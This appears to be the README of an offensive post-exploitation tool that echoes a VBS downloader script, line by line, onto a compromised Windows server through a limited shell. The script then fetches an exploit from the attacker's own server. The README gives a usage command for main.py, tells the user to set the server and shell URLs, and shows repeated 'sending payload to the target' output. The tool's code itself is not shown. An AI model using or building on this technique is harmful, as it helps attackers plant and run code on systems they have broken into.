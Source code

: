# WINDOWS LIMITED SHELL UPLOADER

suppose in post exploitation proses we were find a limited shell on target. in windows server by default there is no wget command like linux system, so we need to create our wget.vbs for download our exploit from our server. we use "echo" command to echoing our vbs script to a file, this script may help to do it automaticaly.

#### setting up simple-vbs.txt
if you choose simple-vbs as your payload, change the server url inside the script payload.

don't forget to change the shell url inside main.py

#### command 

``` $ python main.py --file simple-wget.txt  --output wget```

#### output

```
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
````


